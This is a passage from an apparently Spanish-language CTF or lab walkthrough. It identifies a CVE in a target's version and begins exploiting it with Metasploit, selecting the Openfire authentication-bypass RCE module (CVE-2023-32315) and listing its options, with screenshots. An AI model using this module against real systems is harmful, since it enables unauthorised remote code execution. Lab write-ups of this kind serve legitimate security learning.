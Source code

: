 Encontramos un CVE que se encuentra en esta versión en concreto y haciendo una búsqueda vemos que Metasploit lo tiene incluido en su base de datos por lo que vamos a tratar de explotarlo ya que nos permitiría la ejecución remota de código en caso de funcionar correctamente.
<p align="center">
    <img src="../img/Pasted_image_20241206214554.png" width="500">
</p>




# Explotación

### Usamos el módulo
```
use 4
# ó
use exploit/multi/http/openfire_auth_bypass_rce_cve_2023_32315
```
<p align="center">
    <img src="../img/Pasted_image_20241206214905.png" width="500">
</p>


### Mostramos las opciones
```
show options
```
<p align="center">
    <img src="../img/Pasted_image_20241206214955.png" width="500">
</p>
